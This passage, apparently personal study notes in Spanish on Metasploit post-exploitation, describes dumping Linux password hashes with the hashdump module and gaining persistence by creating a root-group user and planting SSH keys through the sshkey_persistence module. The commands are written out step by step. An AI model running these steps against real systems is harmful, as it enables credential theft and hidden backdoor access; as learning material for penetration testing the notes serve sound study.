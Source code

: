 
### Volcado de Hashes Linux

Cuando obtengamos u na sesion la deberemos de poner en background y upgradearla con `sessions -u <num>`.
usaremos el module de post explotacion llamado `post/linux/gather/hashdump` en el debemos de indicar la sesion upgradeada.
Una vez lo ejecutemos nos muestra dorde se ha guardado el dump de las contraseñas y lo podemos ver y asi poder iniciar sesion como root.


### Persistencia en Linux

Cuando obtengamos una sesion la deberemos de poner en background y upgradearla con `sessions -u <num>`, y ejecutar esa sesion.
Una vez dentro podemos crar un usuario con `useradd -u 15 -m <user> -s /bin/bash` y le establecemos una contraseña con `passwd <user>` si somos root le añadimos al grupo de root con `usermod -aG root <user>`, lo ponemos en background
Utilizaremos el modulo de explotacion de persistencia `use exploit/linux/local/sshkey_persistence`. Configuramos `CREATEFOLDER true` y la session en la que se esta ejecutando. Ejecutamos `loot` para ver la ruta donde se ha guardado, le hacemos un cat y nos muestra la RSA PRIVATE KEY. Lo guardamos en un archivo llamdo `ssh_key` le damos los siguientes permisos `chmod 0400 ssh_key`. Conectamos con la victima via SSH con `ssh -i ssh_key <user>@<IP_Victima>`

